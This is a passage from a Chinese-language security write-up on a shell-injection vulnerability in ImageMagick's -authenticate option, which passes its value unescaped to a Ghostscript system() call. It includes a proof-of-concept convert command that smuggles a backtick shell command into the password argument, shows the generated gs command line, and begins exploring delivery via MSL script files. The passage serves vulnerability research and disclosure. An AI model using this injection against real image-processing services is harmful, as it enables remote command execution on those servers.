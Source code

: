 ```
if ((asynchronous != MagickFalse) ||

(strpbrk(sanitize_command,"&amp;;&lt;&gt;|") != (char *) NULL))

status=system(sanitize_command);
```

因此，我测试了以下命令： 

```
convert -authenticate 'test" `echo $(id)&gt; ./poc`;"' test.pdf out.png
```

创建的Shell命令： 

```
'gs' -sstdout=%stderr -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 '-sDEVICE=pngalpha' -dTextAlphaBits=4

-dGraphicsAlphaBits=4 '-r72x72' "-sPDFPassword=test" `echo $(id)&gt; ./poc`;"" '-sOutputFile=/tmp/magick-pyNxb2vdkh_8Avwvw0OlVhu2EfI3wSKl%d' '-f/tmp/magick-IxaYR7GhN3Sbz-299koufEXO-ccxx46u' '-f/tmp/magick-GXwZIbtEu63vyLALFcqHd2c0Jr24iitE'
```

如上所示，这里已创建文件“poc”，其中包含id命令的输出。这样，就可以确认存在shell注入漏洞了。

但是，这里的问题是：用户不太可能去设置authenticate参数。因此，我决定寻找更好的PoC。



## 漏洞利用：MSL与Polyglots

现在，我需要找到一种通过受支持的文件类型设置“-authenticate”参数的方法，并且我已经知道在哪里寻找：ImageMagick脚本语言（MSL）。MSL可以用来设置输入文件、输出文件和其他参数。同时，我们可以在此处找到相应的示例文件，下面是一个简化版本： 

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;

&lt;image&gt;

&lt;read filename="image.jpg" /&gt;

&lt;get width="base-width" height="base-height" /&gt;

&lt;resize geometry="400x400" /&gt;

&lt;write filename="image.png" /&gt;

&lt;/image&gt;
```

ImageMagick团队称，这种文件格式还没有正确的说明文档，因此，我检查了受支持的属性相关的源代码。我很快在MSL编码器的源代码中发现了下面的内容： 

```
if (LocaleCompare(keyword,"authenticate") == 0)

`{`

(void) CloneString(&amp;image_info-&gt;density,value);

break;

`}`
```
